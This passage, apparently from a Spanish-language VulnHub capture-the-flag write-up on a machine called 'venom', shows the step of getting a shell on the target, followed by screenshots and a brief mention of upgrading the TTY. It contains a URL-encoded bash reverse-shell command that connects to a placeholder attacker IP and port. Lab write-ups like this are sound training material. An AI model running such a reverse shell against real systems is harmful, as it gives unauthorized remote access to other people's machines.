 
Nos lanzamos una shell con esta linea de comandos

```
bash -c 'bash -i >%26 /dev/tcp/<ipAttack>/<port> 0>%261'
```
![](/assets/img/VulnHub/venom/bash.png)

![](/assets/img/VulnHub/venom/nc2.png)

Hacemos tratamiento de la tty para una shell mas interactiva

![](/assets/img/VulnHub/venom/tty.png)

Ejecutamos y despues hacemos un`ctrl+z`

![](/assets/img/VulnHub/venom/tty2.png)
